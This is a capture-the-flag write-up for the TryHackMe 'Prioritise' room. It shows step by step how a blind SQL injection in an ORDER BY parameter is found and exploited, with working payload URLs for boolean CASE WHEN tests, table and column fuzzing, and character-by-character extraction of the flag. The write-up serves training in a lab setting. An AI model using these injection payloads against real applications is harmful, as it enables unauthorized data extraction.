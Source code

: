 # [Tryhackme Prioritise](https://tryhackme.com/r/room/prioritise)

### A few notes to make
- Replace 'prioritise.thm' with the ip of your vhost or add an entry mapping the vhost ip to 'prioritise.thm' to /etc/hosts<br>
- Refer to [w3schools](https://www.w3schools.com/sql/default.asp) if you have issues understanding the given payloads

### Asset discovery
- A quick nmap scan shows that only ports 80 and 22 are open
- Since there are no other interesting ports, let's focus on port 80
- The site is an application for keeping track of todo lists
- As mentioned in the guide, the categorization functionality may have a sql injection vulnerability
- After browsing the site, we find the endpoint housing this functionality
- Let's focus on this endpoint
```
http://prioritise.thm/?order=title
```

### observe a sql injection vulnerability via `ORDER BY..LIMIT` on the `http://prioritise.thm/?order=title` endpoint
- First, we'll try the classic context escapes, ie single quotes(`'`), double quotes(`"`), `AND`, `OR`
- `OR` statements result in database errors

![or 500](./OR-500.png)<br><br>

- Any attempt to escape the context using single or double quotes will also result in an error

![quotes 500](./QUOTES-500.png)<br><br>

- Commenting out the rest of the statement does not result in an error:
```
http://prioritise.thm/?order=title--
```
- Adding another column also works fine:
```
http://prioritise.thm/?order=title,done--
```
![2 cols ok](./2-COLS-OK.png)<br><br>

- This may mean that the values sent to the server are directly appended to the `ORDER BY` clause
- Adding a `LIMIT <n>` statement after the two categories helps confirm this conjecture
- Add at least two items to your list before sending the following payload:
```
http://prioritise.thm/?order=title,done+LIMIT+1--
```
![limit 1](./ADJUST-LIMIT-1.png)<br><br>

- Try changing the 1 to 2

![limit 2](./ADJUST-LIMIT-2.png)<br><br>

- It's great that we've found a vulnerability, but how do we exfiltrate the data?
- Since the only feedback we're getting is via an error, we'll need to modify our payload for blind sql injection

### conduct more research to find a way to exfiltrate data
- The next step is to craft a statement that passes in one scenario but fails in another, then use this statement to exfiltrate the data
- We need the equivalent of an `if..then..else` statement
- In sql, the `CASE...WHEN` clause is the most suitable
- From the home page, add at least three items to your todo list
- Send the following request
```
http://prioritise.thm/?order=title+limit+(select+case+when+((select+'ab')='ab')+then+3+else+1+end);--
```
- Explanation: "if 'ab' equals 'ab', then return three items, otherwise return one item"

![case when](./CASE-WHEN.png)<br><br>

- Tweak any of the 'ab's and observe that only one item is returned whenever there is a mismatch

![case when 2](./CASE-WHEN-2.png)<br><br>

- Since we've found a way to exfiltrate data, the next step is to exfiltrate the data

### bruteforce the required table name
- I wasn't able to fetch any data from `information_schema` (tables,columns...)
- I tried a ton of payloads but none of them worked. Maybe the only table we're allowed to access is the one containing the flag.
- Seeing that my efforts weren't bearing any fruits, I decided to fuzz table names
- After some fuzzing, I discovered the `flag` table
- Fuzz the following url
```
http://prioritise.thm/?order=title+limit+(select+case+when+((select+"bla"+from+{FUZZ})+like+"%%")+then+3+else+1+end);--
```
- Replace **{FUZZ}** with your payloads
- Use a tool of your choice eg ffuf,gobuster,intruder...

![ffuf](./FFUF.png)<br><br>

### now that we have the table, we could start fuzzing for columns
- I skipped this part by simply guessing the `flag` column
- If you want to fuzz, feel free to use:
```
http://prioritise.thm/?order=title+limit+(select+case+when+(substring((select+{FUZZ}+from+flag),1,1)+like+"%%")+then+3+else+1+end);--
```

### the final part is fetching the flag
- You could do it manually or automate it using a python script
- Feel free to take a look at this simple [script](script.py)
- All you need to know here is how to compare substrings
- This is what the url to be fuzzed will resemble:
```
http://prioritise.thm/?order=title+limit+(select+case+when+(substring((select+flag+from+flag),1,{OFFSET})="{FUZZ}")+then+3+else+1+end);--
```
- `limit` restricts the number of items that will be returned
- `select case when`  does the comparison. it is similar to an `if` statement ie **if a, do b. otherwise do c**
- `select flag from flag` fetches the flag from the `flag` table
- `substring` does a comparison between the fetched flag and our current flag fragment
- A summary of what the statement is doing:
  - Compare the current flag fragment to the original flag.
  - If the fragment matches the original flag from the first character to the length of the fragment, 3 items will be returned. this will be the cue to add another character to our flag fragment.
  - If only one item is returned, ignore the current character and try another
- Once the whole flag is obtained, no more characters will be added to the fragment. ie the length of the fragment and the original flag will be equal
- Keep incrementing the offset and adding discovered characters to the fuzzed string till you finally get the whole flag
- The linked script contains these steps. Feel free to run it and observe the process
